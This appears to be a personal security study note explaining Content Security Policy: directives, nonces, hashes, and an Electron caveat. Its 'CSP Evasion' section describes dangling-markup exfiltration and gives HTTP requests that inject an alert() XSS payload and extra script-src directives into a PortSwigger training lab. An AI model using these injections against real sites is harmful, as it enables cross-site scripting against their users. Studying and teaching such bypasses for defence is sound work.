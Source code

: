 >[!summary]
>Content Security Policy (CSP) is a detection and prevention mechanism that provides mitigation against attacks such as [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md) [^1] and [Clickjacking](Clickjacking.md). CSP is usually implemented in the web server as a return header of the form: `Content-Security-Policy: policy` where policy is a string of policy directives separated by semicolons.

[^1]: https://portswigger.net/web-security/cross-site-scripting/preventing#:~:text=Mitigating%20XSS%20using%20content%20security%20policy%20(CSP)

The CSP provides the client browser with information about permitted resources that a page can load or from which can be embedded in frames.

Some examples:
- `Content-Security-Policy: frame-ancestors 'self';`: CSP whitelists frames to the same domain only
- `Content-Security-Policy: frame-ancestors normal-website.com;`: framing restricted to a named site
- `Content-Security-Policy: script-src 'self';`: scripts are allowed only from the same origin ([SOP](Same-origin%20policy%20(SOP).md))
- `Content-Security-Policy: script-src https://scripts.normal-website.com;`: scripts are allowed only from a specific domain
- `Content-Security-Policy: img-src 'self';`: images are allowed only from the same origin ([SOP](Same-origin%20policy%20(SOP).md))
- `Content-Security-Policy: img-src https://scripts.normal-website.com;`: images are allowed only from a specific domain

In addition to whitelisting specific domains, content security policy also provides two other ways of specifying trusted resources: nonces and hashes:

- The CSP directive can specify a nonce (a random value) and the same value must be used in the tag that loads a script. If the values do not match, then the script will not execute. To be effective as a control, the nonce must be securely generated on each page load and not be guessable by an attacker.
- The CSP directive can specify a hash of the contents of the trusted script. If the hash of the actual script does not match the value specified in the directive, then the script will not execute. If the content of the script ever changes, then you will of course need to update the hash value that is specified in the directive.

>[!warning] CSP and Electron applications
>What does the `script-src 'self'` CSP value mean for `file://` URLs used in Electron App? 
>
>It allows **any file from the file system** to be loaded! [^csp-electron]

[^csp-electron]: [Paul Gerste - Remote Code Execution in Tutanota Desktop Due to Code Flaw](../../Readwise/Articles/Paul%20Gerste%20-%20Remote%20Code%20Execution%20in%20Tutanota%20Desktop%20Due%20to%20Code%20Flaw.md#^ee5e7a)

## CSP Evasion

### Using `img` and dangling markup

It's quite common for a CSP to block resources like `script`. However, many CSPs do allow image requests. This means you can often use `img` elements to make requests to external servers in order to disclose [CSRF tokens](Session%20Attacks%20(CSRF,%20session%20stealing,%20etc.).md#CSRF%20tokens), for example.

From the research: [Evading CSP with DOM-based dangling markup](https://portswigger.net/research/evading-csp-with-dom-based-dangling-markup)

![XSS + Dangling Markup + CSP bypass + CSRF](Cross-Site%20Scripting%20(XSS).md#XSS%20+%20Dangling%20Markup%20+%20CSP%20bypass%20+%20CSRF)

### Policy injection

You may encounter a website that reflects input into the actual policy, most likely in a `report-uri` directive. If the site reflects a parameter that you can control, you can inject a semicolon to add your own CSP directives.

Default policy (noticed the `token` parameter in `report-uri`):
```http
GET /?search=<img+src+onerror=alert(1)> HTTP/1.1
Host: 0a6f005403a5d035877a0ba0009b00f6.web-security-academy.net



HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=
```

The parameter can be controlled and arbitrary policies can be injected:
```http
GET /?search=<img+src+onerror=alert(1)>&token=filler;+foo+'bar' HTTP/1.1
Host: 0a6f005403a5d035877a0ba0009b00f6.web-security-academy.net


HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=filler; foo 'bar'
```

Normally, it's not possible to overwrite an existing `script-src` directive. However, Chrome recently introduced the `script-src-elem` [^script-src-element] directive, which allows you to control `script` elements, but not events.

[^script-src-element]: https://w3c.github.io/webappsec-csp/#directive-script-src-elem

```html
Content-Security-Policy: script-src-elem 'none'; script-src-attr 'unsafe-inline'

<script>alert("This will be blocked")</script>
<a href="#" onclick="alert('This will be allowed')">test</a>
```

Crucially, this new directive allows you to [overwrite existing `script-src` directives](https://portswigger.net/research/bypassing-csp-with-policy-injection).

```http
GET /?search=<img+src+onerror=alert(1)>&token=filler;+script-src-elem+'none'%3b+script-src-attr+'unsafe-inline' HTTP/1.1
Host: 0a6f005403a5d035877a0ba0009b00f6.web-security-academy.net


HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=filler; script-src-elem 'none'; script-src-attr 'unsafe-inline'
```

![](../../zzz_res/attachments/CSP-policy-injection.png)

Further examples:
- [eXtra Safe Security layers](../../Play%20ground/CTFs/eXtra%20Safe%20Security%20layers.md)

### Other techniques

- [AngularJS CSP bypass](../Dev,%20scripting%20&%20OS/AngularJS.md#AngularJS%20CSP%20bypass)
- [Ambushed by AngularJS: a hidden CSP bypass in Piwik PRO](https://portswigger.net/research/ambushed-by-angularjs-a-hidden-csp-bypass-in-piwik-pro)
- [Bypass CSP using MIME sniffing](MIME%20sniffing.md#Bypass%20CSP%20using%20MIME%20sniffing)
